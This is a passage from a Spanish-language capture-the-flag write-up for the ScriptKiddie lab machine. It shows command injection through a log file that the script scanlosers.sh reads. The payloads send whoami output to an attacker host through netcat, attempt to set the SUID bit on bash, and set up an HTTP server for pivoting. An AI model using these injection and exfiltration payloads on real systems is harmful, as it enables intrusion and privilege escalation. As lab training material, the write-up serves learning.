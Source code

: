 <br>

<h3 id="Payload">Probando Inyección de Comandos en Script scanlosers.sh</h3>

Hagamos un par de pruebas para saber si esto funcionara:

* **Primer prueba**: Veamos que pasa si inyectamos el comando **whoami**. Para hacerlo, vamos al directorio en donde se encuentra el archivo **hackers** (recuerda que aca es donde posiblemente se guarde una IP y la fecha) y vamos a meter el Payload con el comando **echo**, el resultado lo vamos a mandar hacia nuestra máquina mediante **netcat**:
```bash
echo "[2023-05-08 23:10:46.713999] 10.10.10.226; whoami | nc Tu_IP 443 #" > hackers
```

* Ve el resultado en tu máquina:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [10.10.10.226] 48558
pwn
```
Muy bien, hagamos otra prueba.

* **Segunda prueba**: Vamos a lanzar una **traza ICMP** hacia nuestra máquina usando este método, obviamente debes alzar un capturador con la herramienta **tcpdump**:
```bash
kid@scriptkiddie:~/logs$ echo "[2023-05-08 23:10:46.713999] 10.10.10.226; ping -c 4 Tu_IP #" > hackers
[2023-05-08 23:10:46.713999] 10.10.10.226
PING 10.10.14.16 (10.10.14.16) 56(84) bytes of data.
64 bytes from Tu_IP: icmp_seq=1 ttl=63 time=130 ms
64 bytes from Tu_IP: icmp_seq=2 ttl=63 time=130 ms
64 bytes from Tu_IP: icmp_seq=3 ttl=63 time=131 ms
64 bytes from Tu_IP: icmp_seq=4 ttl=63 time=132 ms
--- 10.10.14.16 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004m
```

* Si observas el **tcpdump** verás que se recibieron, pero ¿qué pasara si tratamos de cambiar los permisos de la **Bash**? Intentémoslo:
```bash
kid@scriptkiddie:~/logs$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
kid@scriptkiddie:~/logs$ echo "[2023-05-08 23:10:46.713999] 10.10.10.226; chmod u+s /bin/bash #" > hackers
kid@scriptkiddie:~/logs$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
```
No funciono, entonces lo que haremos será convertirnos en el usuario **pwn** mediante **Pivoting** y lo haremos de la misma forma con la que obtuvimos acceso la primera vez hacia el **usuario Kid**.

<br>

<h3 id="Pwn">Convirtiendonos en Usuario pwn (Pivoting)</h3>

Vamos por pasos:
* Utilizaremos el mismo archivo **index.html**, entonces abre un servidor en **Python** en donde este ese archivo:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
